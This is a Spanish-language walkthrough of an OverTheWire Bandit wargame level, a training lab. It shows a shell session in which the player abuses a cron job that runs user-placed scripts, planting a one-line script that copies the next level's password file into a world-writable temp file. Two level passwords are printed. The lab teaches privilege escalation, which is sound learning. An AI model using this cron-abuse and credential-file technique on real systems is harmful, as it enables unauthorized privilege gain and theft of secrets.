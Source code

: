 
# Objetivo

Un programa se ejecuta automáticamente a intervalos regulares desde cron, el programador de trabajos basado en el tiempo. Busque en /etc/cron.d/ la configuración y vea qué comando se está ejecutando.

NOTA: Este nivel requiere que cree su propio primer script de shell. ¡Este es un gran paso y deberías estar orgulloso de ti mismo cuando superes este nivel!

NOTA 2: Tenga en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desee conservar una copia...
## Datos de acceso al nivel
Host al que se va a conectar: **bandit.labs.overthewire.org**.
Puerto: **2220**.
Usuario: **bandit23**.
Contraseña: Encontrada en el nivel anterior: `QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`.

## Solución
```
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/clave_temp
bandit23@bandit:~$ cd /tmp/clave_temp
bandit23@bandit:/tmp/clave_temp$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/clave_temp/password" > me.sh
bandit23@bandit:/tmp/clave_temp$ chmod 777 me.sh
bandit23@bandit:/tmp/clave_temp$ cat me.sh
cat /etc/bandit_pass/bandit24 >> /tmp/clave_temp/password
bandit23@bandit:/tmp/clave_temp$ ls -la me.sh
-rwxrwxrwx 1 bandit23 bandit23 58 Feb 27 01:14 me.sh
bandit23@bandit:/tmp/clave_temp$ touch password
bandit23@bandit:/tmp/clave_temp$ chmod 666 password
bandit23@bandit:/tmp/clave_temp$ ls -la password
-rw-rw-rw- 1 bandit23 bandit23 0 Feb 27 01:16 password
bandit23@bandit:/tmp/clave_temp$ ls -la
total 408
drwxrwxr-x   2 bandit23 bandit23   4096 Feb 27 01:16 .
drwxrwx-wt 429 root     root     405504 Feb 27 01:17 ..
-rwxrwxrwx   1 bandit23 bandit23     58 Feb 27 01:14 me.sh
-rw-rw-rw-   1 bandit23 bandit23      0 Feb 27 01:16 password
bandit23@bandit:/tmp/clave_temp$ cp me.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/me.sh': Operation not permitted
bandit23@bandit:/tmp/clave_temp$ cp me.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/clave_temp$ date
Tue Feb 27 01:18:47 AM UTC 2024
bandit23@bandit:/tmp/clave_temp$ ls -la
total 412
drwxrwxr-x   2 bandit23 bandit23   4096 Feb 27 01:16 .
drwxrwx-wt 430 root     root     405504 Feb 27 01:19 ..
-rwxrwxrwx   1 bandit23 bandit23     58 Feb 27 01:14 me.sh
-rw-rw-rw-   1 bandit23 bandit23     33 Feb 27 01:19 password
bandit23@bandit:/tmp/clave_temp$ ls -l
total 8
-rwxrwxrwx 1 bandit23 bandit23 58 Feb 27 01:14 me.sh
-rw-rw-rw- 1 bandit23 bandit23 33 Feb 27 01:19 password
bandit23@bandit:/tmp/clave_temp$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/clave_temp$ 

```

## Notas adicionales

- `mkdir` -> Crea una carpeta en cierto directorio.
- `touch` -> Crea un archivo vacío en el directorio actual. 
- `chmod` -> Cambia los permisos de algún archivo.
## Referencias

cron, crontab, crontab(5) (use “man 5 crontab” to access this)